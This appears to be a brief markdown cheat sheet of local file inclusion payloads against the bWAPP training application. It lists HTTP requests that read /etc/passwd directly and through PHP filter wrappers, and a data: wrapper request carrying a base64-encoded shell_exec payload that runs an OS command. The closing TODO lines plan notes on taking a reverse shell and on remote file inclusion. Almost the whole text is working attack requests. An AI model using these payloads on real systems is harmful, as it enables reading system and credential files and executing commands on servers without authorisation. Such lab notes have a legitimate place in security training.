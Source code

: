 # LFI



## LFI in bwapp

```JAVASCRIPT
ORIGINAL REQUEST:
GET /bWAPP/rlfi.php?language=lang_en.php HTTP/1.1

VULNERABLE REQUEST:
GET /bWAPP/rlfi.php?language=/etc/passwd HTTP/1.1
```


## LFI using php string filter

```JAVASCRIPT
ORIGINAL REQUEST:
GET /bWAPP/rlfi.php?language=lang_en.php HTTP/1.1

VULNERABLE REQUEST:
GET /bWAPP/rlfi.php?language=php://filter/sring.tolower/resource=file:///etc/passwd HTTP/1.1

```


## LFI using php conversion filter

```JAVASCRIPT
ORIGINAL REQUEST:
GET /bWAPP/rlfi.php?language=lang_en.php HTTP/1.1

VULNERABLE REQUEST:
GET /bWAPP/rlfi.php?language=php://filter/convert.base64-encode/resource=file:///etc/passwd HTTP/1.1
```


## LFI using php data filter

```JAVASCRIPT
RUNNING OS COMMAND:
GET /bWAPP/rlfi.php?language=data:text/plain;base64,PD9waHAgZWNobyBzaGVsbF9leGVjKCJkaXIiKTs/Pg== HTTP/1.1

**NOTE: the payload is "<?php echo shell_exec("dir");?>"
```

TODO: NOTE DOWN THE PROCESS OF TAKING REVERSHELL

TODO: NOTE DOWN THE PROCESS OF RFI USING A DIFFERENT SERVER
